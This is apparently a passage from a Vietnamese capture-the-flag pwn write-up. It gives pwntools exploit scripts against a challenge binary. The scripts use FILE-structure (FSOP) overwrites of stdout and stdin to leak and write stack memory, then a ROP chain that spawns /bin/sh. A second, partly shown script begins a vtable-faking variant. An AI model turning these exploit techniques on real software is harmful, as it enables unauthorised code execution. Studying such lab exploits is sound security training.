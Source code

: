```c
p.sendline(b'32')  # offset from stdout to book
p.sendline(p64(libc.sym._IO_2_1_stdin_ -8 ))

#overwrite fp stdout to leak stack address
input()
p.sendline(b'1')
p.sendline(str(8 + 0xce0).encode())
fp = FileStructure()
fp.write(libc.sym.environ, 0x100)
p.sendline(bytes(fp)[:0x30])
p.recvuntil(b'0xfffff221')
stack_leak = u64(p.recv(6).ljust(8, b'\x00'))
log.success(f'{hex(stack_leak) = }')

#over write fp stdin to read
input('last input')
p.sendline(b'1')
p.sendline(str(8+0x38))
p.send(p64(stack_leak-0x150) + p64(stack_leak-0x150+0x100))

input('last input1')
rop = ROP(libc)
rop.raw(rop.ret)
rop.system(next(libc.search(b'/bin/sh\x00')))
p.sendline(rop.chain())
p.interactive()

p.interactive()
```

###  Cách 2

- cách 2 cũng sẽ sử dụng ```FSOP``` , ở đây nó sẽ fake ```vtable``` bằng ```_IO_wfile_jumps```  , bước đầu tiên tương tự cách 1 là leak libc bằng cách ghi ```book``` bằng ```got_printf``` , tiếp theo tương tự ta sẽ ghi lại ```book``` bằng ```libc_base``` , cuối cùng ta sẽ tính toán offset giữa ```libc_base``` và ```_IO_2_1_stdout```  , lúc này ta sẽ fake vtable , cách này là 1 kĩ thuật nâng cao mình đọc vẫn chưa hiểu lắm nên có lẽ cần tìm hiểu thêm 

script :

```c
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

p = process()
gdb.attach(p,gdbscript='''
           b*0x000000000040132A
           b*0x00000000004013CD
           b*0x000000000040140F
           ''')
input()
p.sendline(b'-1')
p.sendline(b'1')
p.sendline(str(exe.sym.book))
p.send(p64(exe.got.printf))
input()
p.sendline(b'2')
```